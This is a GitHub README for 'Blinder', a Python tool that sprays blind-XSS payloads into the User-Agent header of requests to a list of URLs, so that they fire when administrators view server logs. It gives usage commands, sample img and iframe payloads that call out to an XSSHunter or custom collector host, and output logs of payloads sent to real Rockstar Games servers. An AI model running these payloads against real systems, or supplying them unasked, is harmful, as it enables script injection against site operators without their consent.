 # Blinder
- A Tool Written In Python3 For Sending Blind-XSS Payloads On The User-Agent 

## Usage
```
git clone https://www.github.com/DEMON1A/Blinder.git
cd Blinder
python3 Blinder.py [ARGS]
```

## Description
- That's a New Version Of Blinder You Can Use To Automate Sending Payloads Into URLs With a Fast Way. It Basicly Uses The Payload You Provide To Send It On The Value Of The *User-Agent* Header To Inject The Payload Into The Server Logs If The Admin Can View It. In This Case You Should Receive An Alert On Your XSSHunter/Bin. That's Just It.

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

### What's New?
- Threading To Improve The Script Speed.
- Using Your Own External Bin Instead Of Just Using XSSHunter
- Using Your Own Payloads That Could Be Used To Inject Other Payloads For Other Issues
- Been Able To Allow/Disallow Redirects With Requests
- You Can Use Multi Payloads With The Requests And Select The Split Char
- Cleaner Code!

### How To Use:
- For Basic Usage With a Basic Payload You Can Just The Script Using This:

```
python3 Blinder.py -f URLs.txt -u hacker -r allow
```

- The Script Can't Run Without Getting The Redirection Rule. You Can Select Between `allow` and `deny` That Chooses If The Redirections Will Be Followed In This Case Or Not.

- To Add Your Own Payload You Have To Use `XXX` On Your Payload So It Could Be Replaced With The XSSHunter/ExternalBin. For Example If You Want To Create Your Own Payload It Will Look Like This:

```
python3 Blinder.py -f URLs.txt -u hacker -r allow -p '"><img src="XXX">'
```

- Make Sure The `XXX` In This Case Are Able In a Upper Case.

- To Use Your Own ExternalBin Instead Of XSSHunter You Have To Use `-b` Option. With Your External Host Including The Protocol. For Example

```
python3 Blinder.py -f URLs.txt -b https://www.example.com/ -r allow -p '"><img src="XXX">'
```

- If You Didn't Add a Payload In Any Cases, Blinder Will Auto Set The Default XSSHunter XSS Payload To Use It.

- You Can Use Multi Payloads With The Requests By Adding a Split Char Between Them You Can Select. If You Didn't Add The Split Char The Program Will Auto Set It Into `,` In This Case. To Use Multi Payloads It Will Look Like This

```
python3 Blinder.py -f URLs.txt -u hacker -r allow -p '"><img src="XXX">','"><iframe src="XXX">' -s ,
```
- The Output Will Be Something Like That In This Case.

```
Request Has Been Sent To: https://scapi.rockstargames.com, Status-Code: 403 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://scapi.rockstargames.com, Status-Code: 403 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: http://scapi.rockstargames.com, Status-Code: 301 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: http://scapi.rockstargames.com, Status-Code: 301 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://warehouse.rockstargames.com, Status-Code: 302 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://warehouse.rockstargames.com, Status-Code: 302 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
```

### Something Isn't Working Or You Want To Improve Something?
- Then Please Open an Issue With It Or You Can Fork The Project Then Create a Pull Request.
